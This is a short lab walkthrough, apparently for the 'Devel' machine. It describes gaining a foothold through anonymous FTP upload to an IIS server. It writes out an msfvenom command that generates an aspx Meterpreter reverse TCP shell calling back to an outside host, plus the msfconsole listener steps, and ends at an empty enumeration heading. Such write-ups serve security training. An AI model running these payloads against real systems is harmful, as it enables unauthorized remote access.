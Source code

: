 ## Gaining a Foothold

### Devel (Using MSF conditions)  

**Initial Enum / RevShell Payload**
Nmap scan > iis server and ftp anonymous login identified > login ftp server and `PUT` test file sucessful > use msfvenom to generate a reverse tcp shell in aspx (since target is hosting iis)

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.05 LPORT=4444 -f aspx -o reverse.aspx`  

![image](https://github.com/user-attachments/assets/3db1aa08-39b4-45d2-afbe-01710f16b7cd)

**Listener with msfconsole**
msfconsole > use exploit/multi/handler > set payload windows/meterpreter/reverse_tcp > set LHOST 10.10.10.05 > set LPORT 4444 > run

#### System Enumeration
